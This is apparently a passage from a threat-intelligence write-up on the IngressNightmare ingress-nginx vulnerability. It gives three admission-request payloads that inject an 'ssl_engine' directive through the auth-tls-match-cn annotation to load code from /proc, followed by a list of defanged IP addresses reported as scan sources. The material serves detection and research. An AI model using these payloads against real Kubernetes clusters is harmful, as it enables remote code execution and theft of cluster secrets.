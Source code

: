 ```


## Examples of variations that can be used in the 'admission.json' File

#### Probing

```
"metadata":{
  "name":"2vxzygs9d9hpenwzndlbpbqevem-auth-tls",
  "namespace":"default",
  "annotations":{
    "nginx.ingress.kubernetes.io/auth-tls-match-cn":"CN=abc #(\n){}\n }}\nssl_engine /aaa;\n#
```

#### Payload 1

```
"metadata": {
  "name": "2vxzygs9d9hpenwzndlbpbqevem-auth-tls",
  "namespace": "default",
  "annotations": {
    "nginx.ingress.kubernetes.io/auth-tls-match-cn": "CN=abc #(\n){}\n }}\nssl_engine /proc/1/fd/10;\n#",
    "nginx.ingress.kubernetes.io/auth-tls-secret": "calico-system/node-certs",
    "nginx.ingress.kubernetes.io/backend-protocol": "FCGI"
```

#### Payload 2

```
"metadata": {
  "name": "eumesmo",
  "namespace": "default",
  "creationTimestamp": null,
  "annotations": {
    "nginx.ingress.kubernetes.io/auth-tls-match-cn": "CN=abc #(\n){}\n }}\nssl_engine ../../../../../../proc/1/fd/10;\n#",
    "nginx.ingress.kubernetes.io/auth-tls-secret": "calico-system/node-certs",
    "nginx.ingress.kubernetes.io/backend-protocol": "FCGI"
```

## Observed in the Wild

2,371 examples of IP addresses noted as the source of scans/probes for ingressNightmare

2.16.1[.]134
2.16.1[.]174
2.16.142[.]79
2.16.142[.]87
2.16.142[.]93
2.16.240[.]162
2.17.22[.]20
2.18.30[.]208
2.18.62[.]55
2.19.96[.]167
2.20.179[.]74
2.20.179[.]76
2.20.179[.]79
2.22.54[.]141
2.22.54[.]190
2.22.54[.]45
2.22.62[.]213
2.23.97[.]78
3.111.221[.]100
```